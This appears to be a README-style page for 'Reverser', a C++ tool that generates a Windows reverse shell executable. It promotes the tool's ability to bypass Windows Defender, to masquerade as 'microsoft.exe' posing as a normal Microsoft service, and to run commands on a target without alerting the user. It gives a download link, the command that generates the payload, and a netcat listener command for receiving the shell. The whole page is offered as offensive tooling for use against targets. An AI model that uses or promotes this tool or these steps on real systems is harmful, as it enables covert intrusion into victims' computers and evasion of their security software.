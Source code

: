 What is Reverser?
Reverser is a reverse shell tool generate executable reverse shell that 
bypass Windows Defender ⚔️.

#Tool Details:
- Language: The tool is developed in C++.
- Usage: Below is a guide on how to use it.

#Key Features 🤖:
1. Bypass Windows Defender: The tool is designed to evade detection by 
Windows Defender.
2. Stealth Execution: The generated shell appears as “microsoft.exe”, 
running as a normal Microsoft service in the Task Manager.
3. Silent Command Execution: Execute commands on the target machine 
without alerting the user.
4. Windows Subsystem Shell: The shell operates within the Windows 
subsystem.

# Installation 🚨:

First, download the tool from my GitHub repository:

[GitHub - salehalthini/reverser](https://github.com/salehalthini/reverser)

# Usage 👨🏻‍💻:

You have two options to use the tool:
1. Use the precompiled “.exe” available in the project.
2. Compile the “.cpp” code provided on GitHub.

# Generating a New Shell:

1. Open your terminal and run:
  ```
   reverser.exe <ip> <port>
```
   This command generates a new file named “microsoft.exe”, which acts as 
the reverse shell. You can deploy this on the target machine.

2. On your client machine (your device), run the following command to 
listen for incoming connections from `microsoft.exe`:
   ```
   nc -l <port>
   ```
   Replace `<port>` with the port number you specified in `reverser.exe`.



